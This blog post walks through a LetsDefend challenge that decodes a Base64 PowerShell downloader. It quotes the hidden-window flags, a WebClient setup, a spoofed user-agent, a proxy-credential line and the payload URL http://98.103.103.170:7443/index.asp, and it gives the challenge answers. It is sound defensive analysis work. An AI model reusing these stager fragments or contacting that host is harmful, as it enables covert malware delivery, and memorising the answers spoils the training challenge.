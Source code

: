 ```yaml
---
layout: post
title: "Let's Defend: PowerShell Script"
date: 2025-01-19
categories: [Lets Defend]
tags: [PowerShell, Base64] 
---
```


Challenge Link: [https://app.letsdefend.io/challenge/powershell-script](https://app.letsdefend.io/challenge/powershell-script)

Scenario:
```
You've come across a puzzling Base64 script, seemingly laced with malicious intent. Your mission, should you choose to accept it, is to dissect and analyze this script, unveiling its true nature and potential risks. Dive into the code and reveal its secrets to safeguard our digital realm. Good luck on this daring quest!
```

Tool Needed: `Cyberchef`
File Location: `C:\Users\LetsDefend\Desktop\script.txt`

## Question 1
What encoding is the malicious script using?

The scenario description already mentions that the script uses `Base64` but I double checked the answer by opening the script and taking a look.

![Script Contents](/assets/img/posts/2025-01-19-PowerShell-Script/image-1.png)

Considering the character usage and the signature `=` at the end of the encoding for padding, I was pretty confident in my answer.

Answer:

`Base64`

## Question 2
What parameter in the powershell script makes it so that the powershell window is hidden when executed?
  
The first line of the script, before the Base64 encoding, there is a call to `powershell.exe` with an option for `-W Hidden` that is being used to hide the PowerShell window.

Answer:

`-W Hidden`

## Question 3
What parameter in the Powershell script prevents the user from closing the process?

This took some time to research but I discovered that running powershell with `-NonI` will run the script in "Non-Interactive Mode" which will prevent the user from closing.

Answer:

`-NonI`

## Question 4
What line of code allows the script to interact with websites and retrieve information from them?

First I had to decode the Base64. To do this I used [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)  with the `From Base64` filter.

![Cyberchef From Base64](/assets/img/posts/2025-01-19-PowerShell-Script/image-2.png)

This gave me an output where a `NULL` value followed behind every character in the script. This helped make the script difficult to read or work with. I discovered that CyberChef also had a filter called `Remove null bytes` that would be perfect for my purpose.

![Remove null bytes](/assets/img/posts/2025-01-19-PowerShell-Script/image-3.png)

This removed the `NULL` values but it still wasn't quite readable, so I copied the text to notepad and moved each script statement to a different line, delimited by the `;` value.  

![Formated Decoded Script Contents](/assets/img/posts/2025-01-19-PowerShell-Script/image-4.png)

This made understanding the script a lot easier. The question wants to know which line allows the script to interact with websites. The first line of the file shows it creating a webclient object. This is the answer

Answer:

`$WC=New-ObjEcT SySTeM.NET.WebCliENt;`

## Question 5
What is the user agent string that is being spoofed in the malicious script?

The second line of code creates a variable called `u` and sets it to what appears to be a user-agent string: `Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko`

Answer:

`Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko`

## Question 6
What line of code is used to set the proxy credentials for authentication in the script?

Line 5 of the script creates a variable called `wc.PROxY.CrEdenTialS` and sets it to the value of `[SysTem.NEt.CRedeNTIAlCAcHE]::DeFAULTNetWOrKCredENTiAls`

Answer:

`$wc.PROxY.CrEdenTialS = [SysTem.NEt.CRedeNTIAlCAcHE]::DeFAULTNetWOrKCredENTiAls`

## Question 7
When the malicious script is executed, what is the URL that the script contacts to download the malicious payload?

The last line of the script shows a `wc.DOwNLOaDStriNg` variable that uses a parameter of `http://98.103.103.170:7443/index.asp` which appears to be the malicious URL.

Answer:

`http://98.103.103.170:7443/index.asp`